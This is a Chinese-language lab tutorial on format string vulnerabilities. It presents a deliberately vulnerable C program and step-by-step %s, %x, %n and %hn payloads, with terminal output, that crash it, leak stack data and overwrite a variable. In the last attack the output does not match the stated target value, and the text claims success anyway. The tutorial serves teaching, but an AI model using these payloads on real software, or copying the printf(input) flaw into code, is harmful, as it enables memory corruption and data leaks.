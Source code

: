 # 
#### 如何使用可变参数
printf可以接受任意数目的参数，首先通过自定义的函数理解以下可变参数   
```
#include <stdio.h>
#include <stdarg.h>

int myprint(int Narg, ... )
{
    int i;
    va_list ap;

    va_start(ap, Narg);
    for (i=0; i<Narg; i++)
    {
        printf("%d ", va_arg(ap, int));
        printf("%f\n", va_arg(ap, double));
    }
    va_end(ap);
}

int main()
{
    myprint(1, 2, 3.5);
    myprint(2, 2, 3.5, 3, 4.5);
    return 1;
}
```
va_list 是在 C 语言中引入解决变参问题的一组宏  
a)  首先在函数中定义一个具有va_list型的变量，这个变量是指向参数的指针。  
b)  然后用va_start宏初始化变量刚定义的va_list变量，使其指向第一个可变参数的地址(也就是通过myprint的第一个参数来计算va_list的起始位置)。  
c)  va_arg返回下一个可变参数的位置，va_arg的第二个参数是你要返回的参数的类型  
d)  最后使用va_end宏结束可变参数的获取。  


**而pirntf是通过格式规定符(也就是%的个数)来决定可变参数的数量(va_arg调用次数)**


#### 漏洞程序/实验
```
// vul.c
#include <stdio.h>

void fmtstr()
{
    char input[100];
    int var = 0x11223344;

    printf("Target address: %x\n", (unsigned) &var);
    printf("Data at target address: 0x%x\n", var);

    printf("Please enter a string: ");
    fgets(input, sizeof(input)-1, stdin);
    printf(input);
    printf("Data at target address: 0x%x\n", var);
}

void main()
{
    fmtstr();
}
```


#### 攻击一：使程序崩溃
```
ubuntu@VM-0-17-ubuntu:~$ ./vul 
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: %s%s%s%s%s%s%s%s%s%s
Segmentation fault (core dumped)
```

![](/software-security/img/format1.png)

每当遇到一个%s,便从va_list指向的位置获取一个值，但是由于其实没有可变参数，va_list现在指向了fprint之外的帧栈,可能指向了fmtstr的帧栈。他们可能都不是合法地址，当一个程序从一个非法地址获取数据就会导致程序崩溃。%s格式规定符是把printf取得的值视为一个地址，并打印出该地址处的字符串。



#### 攻击二：输出栈中的数据
假设漏洞程序中的var是一个秘密值。
```
ubuntu@VM-0-17-ubuntu:~$ ./vul
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: %x.%x.%x.%x.%x.%x.%x.%x.
63.b7fcd5a0.bffff60f.bffff60e.11223344.252e7825.78252e78.2e78252e.
Data at target address: 0x11223344
```
%x格式规定符可以以16进制打印出va_list指向的数，为了计算秘密值到va_list的初始位置的距离可以使用试错法，首先尝试8个%x，可以看到var的值在第5个%x输出


#### 攻击三：修改内存中的程序数据
所有的格式规定符都是输出数据的，唯一有一个例外，就是%n，它会把目前已打印的字符串的个数写入内存。  
比如： printf("hello%n", &i)
```
int main()
{
    int i;
    printf("hello%n\n", &i);
    printf("%d\n", i);

}
```
```
shan@shan-GV62-8RC:~/s$ gcc -o test test.c
shan@shan-GV62-8RC:~/s$ ./test
hello
5
```


下面尝试修改内存中的程序数据  
```
ubuntu@VM-0-17-ubuntu:~$ ./vul 
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: aaa
aaa
Data at target address: 0x11223344
```
通过正常执行  看到希望修改的地址是bffff5d4  
可以通过`bffff5d4.%x.%x.%x.%x.%x.%x.%x.%x.%x`的方式把地址放入栈中

首先还是通过试错的方式查看bffff5d4在栈中的位置  
注意： 需要用到linux自带的printf命令将shellcode编码才能写入地址，由于命令行输入的shellcode编码不能直接被转义，所以可以先把输入保存在文件中。 因为小端序的缘故放入内存的顺序是d4->f5->ff->bf，\x的作用是把D和4当作是一个数字   
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\xD4\xF5\xFF\xBF").%x.%x.%x.%x.%x.%x.%x.%x.%x > input
ubuntu@VM-0-17-ubuntu:~$ ./vul < input 
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: ����.63.b7fcd5a0.bffff60f.bffff60e.11223344.bffff5d4.2e78252e.252e7825.78252e78
Data at target address: 0x11223344
```
可以发现地址在第6个格式化符的位置  
把第6个%换成%n  
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\xD4\xF5\xFF\xBF").%x.%x.%x.%x.%x.%n > input
ubuntu@VM-0-17-ubuntu:~$ ./vul < input 
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: ����.63.b7fcd5a0.bffff60f.bffff60e.11223344.
Data at target address: 0x2c
```
成功把var的值修改为0x2c，0x2c即十进制44，说明在遇到%n前输出了44个字符。

!!! shell一句话判断大小端序
    echo -n I | od -o | head -n1 | cut -f2 -d" " | cut -c6
    1为小端模式，0为大端模式



#### 攻击四：修改数据为指定值 
例如把var的值修改为0x9896a4 转成10进制就是10000036  
可以通过修改格式符的进度来控制字符数  
10000000 + 4 * 8 = 10000036
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\xD4\xF5\xFF\xBF").%8x.%8x.%8x.%8x.%10000000x.%n > input
...
Data at target address: 0x9896aa
```
可以看到成功把值改为0x9896aa。整个过程大约耗时十几秒.  
如果把值改成0x66887799,换成10进制就是17亿多。这个过程估计需要几个小时，有时间的朋友可以尝试以下。

!!! note
    注意地址\xD4\xF5\xFF\xBF 中的D4 F5 FF BF 需要大写


#### 攻击五：更快的方法
%n视为4个字节 %hn视为2个字节 %hhn视为1个字节   
因此可以尝试用%hn把var的值修改为0x66887799  
现在把地址bffff5d4按两个字节来分就是 0xbffff5d4和0xbffff5d6。需要把0x7799放在地址0xbffff5d4上，0x6688放在地址0xbffff5d6上。
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\xD4\xF5\xFF\xBF@@@@\xD6\xF5\xFF\xBF")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
ubuntu@VM-0-17-ubuntu:~$ ./vul < input
...
Data at target address: 0x77996688
```
`\xD4\xF5\xFF\xBF@@@@\xD6\xF5\xFF\xBF`是12个字符  
12 + 8*4 + 26204 = 26248  十六进制是 6688  
26248 + 4369 = 30617  十六进制是 7799  
在两个地址之间插入四个字节的@@@@是为了在两个%hn之间在插入一个%x，这样第二个%hn的时候才到累加到30617完成目标  

这个过程几乎是一瞬间的事情，可以看到通过字节拆分后赋值效率很高




